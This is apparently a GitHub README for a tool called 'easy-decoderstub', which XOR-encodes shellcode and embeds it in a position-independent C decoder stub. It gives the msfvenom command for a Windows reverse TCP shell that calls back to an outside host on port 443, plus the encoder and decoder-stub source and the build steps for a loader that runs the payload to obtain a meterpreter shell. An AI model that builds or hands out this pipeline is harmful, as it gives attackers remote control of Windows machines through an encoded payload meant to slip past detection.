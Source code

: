 # easy-decoderstub
An easy way to create decoder stubs in C


I wanted to look at how decoder stubs work. After that I wanted to have a simple method to avoid having to write complicated encodings/decodings in assembler. So I embed the encoded shellcode in the text segment of a C program that is PIC. After extracting the shellcode of the PIC, it can be executed in a loader. 

> Since the shellcode changes itself, the memory must be RWX.


# How to use

> I use a C-Encoder, you can use what you like most. 

* Create your shellcode.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.11 LPORT=443 -f c
```

* Copy shellcode into encoder-xor.c, compile and run it.

```c
#include <windows.h>
#include <stdio.h>


int main () 
{
    char key[] = "supersecret";
    unsigned char buf[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
	...

    int j = 0;
    for (int i = 0; i < sizeof buf; i++) 
    {
        if (j == sizeof key - 1) j = 0;

        buf[i] = buf[i] ^ key[j];
        j++;
    }

    for (int i = 0; i < sizeof buf; i++)
    {
        printf("\\x%x", (unsigned char)buf[i]);
    }
}
```

```
x86_64-w64-mingw32-gcc encoder-xor.c -o encoder-xor.exe
```

```
.\encoder-xor.exe
\x8f\x3d\xf3\x81\x82\x9b\xa5\...
```

* Copy encoded shellcode in decoderstub.c, compile it. 

> Here you can code fancy stuff and have not to write it in assembly.

```c
#include "windows.h"

// Contains shellcode of loader
char buf[]  __attribute__((section(".text"))) = "\x8f\x3d\xf3\x81...";
char key[]  __attribute__((section(".text"))) = "supersecret";
void go() 
{
    int j = 0;
    for (int i = 0; i < sizeof buf; i++) 
    {
        if (j == sizeof key - 1) j = 0;

        buf[i] = buf[i] ^ key[j];
        j++;
    }

    (*(void(*)())(&buf))();
}
```

```
./compile.sh
```

* Compile and run the loader to get the meterpreter shell.

```
x86_64-w64-mingw32-gcc loader.c -o loeader.exe
```

```
.\loader.exe .\decoderstub.bin
```

![alt text](screenshot.png)


